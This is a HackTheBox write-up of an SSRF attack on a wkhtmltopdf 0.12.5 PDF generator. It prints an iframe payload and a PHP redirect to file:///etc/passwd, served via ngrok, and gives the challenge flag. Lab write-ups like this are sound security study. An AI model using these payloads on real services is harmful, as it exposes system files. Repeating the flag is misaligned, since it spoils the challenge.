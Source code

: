 ```yaml
---
layout: writeup
category: HackTheBox
chall_description: 
points: 
solves: 
tags: HTB, easy
date: 2024-07-10
comments: false
---
```



## Description
This was a nice and easy challenge. We had to perform server site reqest forgery to get cotents of `/etc/passwd` in the PDF generate by the server.    


## Enumeration

We are given the IP and port where the site is hosted. Site takes a URL and genarates a PDF for it.
![Branching](/assets/CTFs/HackTheBox/challenges/pdfy1.png)  

Sending a random url to check its working we can see it generates a PDF using `wkhtmltopdf` version `0.12.5`. This version is however vulnerable to SSRF. [Exploit-DB](https://www.exploit-db.com/exploits/51039)
![Branching](/assets/CTFs/HackTheBox/challenges/pdfy2.png)    


## Exploitation

We have to use frame tag to load local file. In Python, I hosted a basic html file with `<iframe src=”file:///etc/passwd” height=”500” width=”500”></iframe>` and used ngrok to host my local server in the Internet. However this did not work for, for some reason iframe gave error and PDF wasn't generated.  
After some research I found out this CTF writeup which had a similar situation [Insomni'hack 2019 - Ezgen](https://gist.github.com/ast3ro/ca6eec74293be5992f35b18023b420a4). There he used php's location function to redirect to `file:///etc/passwd`.  

Final explaoit, local hosting using php and remote hosting using ngrok. Contents of index.php are as follows.
```php
<?php 
echo "Testing: ";
if (isset($_GET['r'])) {
    header("Location:file:///etc/passwd");
    
} else {
    echo "Not Redirected.";
}
?>
```  

In the URL input we send `*.ngrok-free.app/?r=1` and we get the contents of the file.
![Branching](/assets/CTFs/HackTheBox/challenges/pdfy3.png)  

Flag: `HTB{pdF_g3n3r4t1on_g03s_brrr!}`  










